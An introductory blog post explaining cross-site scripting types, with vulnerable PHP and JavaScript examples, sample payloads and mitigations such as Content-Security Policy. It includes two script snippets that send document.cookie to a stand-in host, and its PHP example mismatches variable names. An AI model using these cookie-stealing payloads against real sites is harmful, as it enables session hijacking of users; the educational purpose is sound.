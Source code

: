 ```yaml
---
layout: post
title: What Is XSS?
---
```


## What Is It?
Cross-Site Scripting (XSS) is a client-side attack that allows an attacker to run arbitrary Javascript on a web site or application. This enables an attacker to do malicious things such as steal cookies which can lead to session hijacking, steal user credentials, or log keystrokes. 
There are a few different types of Cross-Site Scripting. The most common types are reflected, stored or persistent, and DOM-based XSS. There is also a less common version called mutation XSS (mXSS). Being a client-side attack, what they have in common is that a payload exploiting these vulnerabilities needs to be delivered to the user in some fashion. This, typically, means phishing.

The difference between them, for the most part, is self-explanatory. A search function that displays the input entered back onto the page is a good example of reflected XSS. 

Consider the following code snippet:
```
<body>
	<form action=”” method=”get”>
		<input type=”text” name=”search”>
		<input type=”submit” value=”Submit”>
	</form>
```

```php
  <?php
    $query = $_GET['search'];
    echo "Results for: $search"; 
  ?>
```
The XSS payload would be stored within the $query variable and then executed as it is reflected onto the page.
Stored XSS, on the other hand, means the payload is not immediately executed. It will be stored in a database, and upon retrieval will be executed somewhere. This could be the comment section of a blog for example. First, an attacker would submit a XSS payload as a comment. Then, once a user navigates to the post that comment is for, the payload would execute.

DOM-based XSS is where things get tricky. To understand this attack, one must first understand the DOM. This stands for the Document-Object Model. It is a tree-representation of the structure of documents in memory. Essentially, Javascript interacts with and manipulates the HTML on a website through the DOM. 
DOM-based XSS comes into play when Javascript methods such as .innerHTML are used with unsanitized data. 

Consider the following code snippet:
```javascript
let input = post.author;
element.innerHTML = input;
```
Since the input variable is user-supplied, a malicious payload could be supplied. DOM-based XSS can get very complicated so there will be other resources listed at the end that will explain it better. 

## What does it look like?
A XSS payload can be as simple as &lt;script&gt;alert(1)&lt;/script&gt; or as complex as &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;.

While Flash and ActiveX can also be vectors for XSS, today, it tends to be javascript. So, any javascript code could potentially be a XSS payload. 
Generally, &lt;script&gt;alert(1)&lt;/script&gt; is used to test for the vulnerability to see if it is exploitable. 

The following code snippets may also be seen:
```
<script>
  let image = new Image(); 
  image.src='http://example.com?c='+document.cookie;
</script>
```
```
<script>
  document.location="http://example.com?c="+document.cookie;
</script>
```
## Mitigations
There are several ways to mitigate against XSS. All of them originate from the same consideration: never trust user input. And none of them should ever be solely relied upon.

A well-configured Content-Security Policy (CSP) can be a great step towards preventing XSS. It defines trust boundaries for scripts, stylesheets and other media sources. 

Input validation and sanitization are also excellent options. Input validation is the process of ensuring the data submitted is what was expected. Input sanitization is the process of removing or manipulating potentially malicious data. 

## Resources
[DOM XSS Explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)
[DOM Based XSS Software Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS)
[What is DOM Based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[Content-Security Policy - Google](https://developers.google.com/web/fundamentals/security/csp/)
[Content-Security Policy: Use Cases](https://beaglesecurity.com/blog/article/content-security-policy.html)
